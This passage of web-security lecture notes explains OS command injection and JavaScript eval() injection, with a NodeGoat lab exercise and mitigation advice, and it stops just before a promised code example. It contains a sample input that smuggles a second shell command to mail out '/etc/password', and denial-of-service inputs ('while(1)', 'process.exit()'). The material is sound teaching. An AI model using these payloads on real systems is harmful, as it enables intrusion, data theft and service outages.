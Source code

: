 Injection attacks on the server can take multiple forms, we first consider **OS command injection**:

![OS command injection](img/L8-os-command-injection.png)

:point_up: Here, we have a web portal that allows a user to sign up to a newsletter. The form looks simple enough: one `<input type="text">` element and a `<button>` to submit the form. On the server-side, a bash script takes a fixed confirmation string (stored in file `confirm`) and sends an email to the email address as stated in the user's input (*Thank you for signing up for our mailing list.*). This setup of course assumes, that the user actually used an email address as input. Let's look at benign and malicious user input:

- The benign input `john@test.nl` leads to the following OS command: `cat confirm|mail john@test.nl`. This command line is indeed sufficient to send an email, as Linux has a command line [mail](https://linux.die.net/man/1/mail) tool.
- An example of malicious input is the following: `john@test.nl; cat /etc/password | mail john@test.nl`. If the input is not checked, the server-side command line will look as follows: `cat confirm | mail john@test.nl; cat /etc/password | mail john@test.nl`. Now, two emails are sent: the confirmation email and a mail sending the server's file `/etc/password` to `john@test.nl`. This is clearly *unintended code execution.*.

Web applications that do not validate their input are also attackable, if they interpret the user's input as JavaScript code snippet. Imagine a calculator web application that allows a client to provide a formula, that is then send to the server, executed with the result being sent back to the client. JavaScript offers an [`eval()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval) function that takes a string representing JavaScript code and runs it, e.g. the string `100*4+2` can be evaluated with `eval('100*4+2')`, resulting in `402`. However, a malicious user can also input `while(1)` or [`process.exit()`](https://nodejs.org/api/process.html#process_process_exit_code); the former leads the event loop to be stuck forever in the while loop, while the latter instructs Node.js to terminate the running process. Both of these malicious inputs constitute a denial of service attack.

`eval()` in fact is so dangerous that [it should never be used](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval#Do_not_ever_use_eval!).

#### :bangbang: NodeGoat

1. To try out this attack, head to NodeGoat's installation at http://nodegoat.herokuapp.com/login. 
2. Login with `user1` (user) and `User1_123` (password).
3. On the left-hand side, click on *Contributions*.
4. To explore the effect of different inputs, try out a few numbers and strings in the three *New Payroll Contribution Percent* form fields.
5. In one of the form fields, now fill in `process.exit()` and click `Submit`.
6. You should now see an application error.

#### How to avoid it

Injection attacks can be avoided by **validating** user input (e.g. is this input really an email address?) and **sanitizing** it (e.g. by stripping out potential JavaScript code elements). These steps should occur **on the server-side**, as a malicious user can always circumvent client-side validation/sanitation steps.

A popular Node package that validates and sanitizes user input is [validator](https://www.npmjs.com/package/validator). For example, to check whether a user input constitutes a valid email address, the following two lines of code are sufficient:
